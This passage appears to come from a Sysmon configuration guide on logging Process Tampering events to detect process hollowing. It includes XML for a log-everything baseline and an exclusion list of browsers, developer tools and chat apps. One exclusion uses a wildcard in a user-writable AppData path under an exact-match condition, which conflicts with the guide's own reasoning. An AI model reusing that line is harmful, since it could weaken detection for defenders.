**6. Processes from Suspicious Parents**
* Processes spawned by cmd.exe, powershell.exe being tampered with
* Office applications spawning processes that are tampered with
* Unusual parent-child relationships combined with tampering

The fields for the event are:

* **ProcessGuid** -- Unique process GUID generated by Sysmon.

* **ProcessId** -- Process ID represented as an integer number.

* **Image** -- Full path of the executable image that was tampered with.

* **Type** -- Type of process tampering (Image is locked for access, Image is replaced)


Several programs legitimately trigger process tampering events, particularly browsers and development tools. However, since attackers can target any process for hollowing attacks, the recommended approach is to **log all tampering events initially** and build an exclusion list through baselining.

**Risk Consideration**: There is inherent risk in excluding any process from tampering detection, as attackers may specifically target excluded processes. However, this risk is mitigated by:
* Using full path exclusions (attackers can't easily place malware in Program Files)
* Monitoring these same processes with other event types (Process Access, Network Connections)
* Layered detection approach catches attacks through multiple signals

**Phase 1 - Initial Deployment**: Log everything with no exclusions to understand your environment's tampering baseline.

```xml
<Sysmon schemaversion="4.50">
  <EventFiltering>
    <RuleGroup name="" groupRelation="or">
      <ProcessTampering onmatch="exclude">
      </ProcessTampering>
    </RuleGroup>
  </EventFiltering>
</Sysmon>
```

**Phase 2 - Build Exclusion List**: After 1-2 weeks of baselining, create exclusions for verified legitimate applications using full paths:

```xml
<Sysmon schemaversion="4.50">
  <EventFiltering>
    <RuleGroup name="" groupRelation="or">
      <ProcessTampering onmatch="exclude">
        <!-- Browsers: Use full paths for security -->
        <Image condition="is">C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe</Image>
        <Image condition="is">C:\Program Files\Google\Chrome\Application\chrome.exe</Image>
        <Image condition="is">C:\Program Files\Mozilla Firefox\firefox.exe</Image>
        <Image condition="is">C:\Program Files\Mozilla Firefox\updater.exe</Image>
        <Image condition="is">C:\Program Files\Mozilla Firefox\default-browser-agent.exe</Image>
        <Image condition="is">C:\Program Files\Mozilla Firefox\pingsender.exe</Image>

        <!-- Development Tools -->
        <Image condition="is">C:\Program Files\Microsoft VS Code\Code.exe</Image>
        <Image condition="is">C:\Program Files\Git\cmd\git.exe</Image>
        <Image condition="is">C:\Program Files\Git\mingw64\bin\git.exe</Image>

        <!-- Electron-based Applications (Slack, Teams, Discord, etc.) -->
        <!-- Add specific paths as discovered during baselining -->
        <Image condition="is">C:\Program Files\Slack\slack.exe</Image>
        <Image condition="is">C:\Users\*\AppData\Local\Microsoft\Teams\current\Teams.exe</Image>

        <!-- Chrome Software Reporter Tool -->
        <Image condition="end with">\software_reporter_tool.exe</Image>
      </ProcessTampering>
    </RuleGroup>
  </EventFiltering>
</Sysmon>
```

**Known Legitimate Sources of Tampering Events:**
* **Browsers**: Chrome, Edge, Firefox generate tampering events during updates and certain internal operations
* **Electron Applications**: Slack, Microsoft Teams, Discord, Mattermost, and other Electron-based apps
* **Development Tools**: VS Code, Git, and integrated debuggers
* **Update Mechanisms**: Browser updaters and software reporter tools

**Important Reminder**: This event type does not detect all process hollowing variants. Attackers using alternative techniques that modify smaller portions of the image or use different API sequences may evade detection. This underscores the importance of **layered detection** - combining Process Tampering monitoring with Process Access, Image Load, and Network Connection monitoring to catch attacks through multiple behavioral signals.

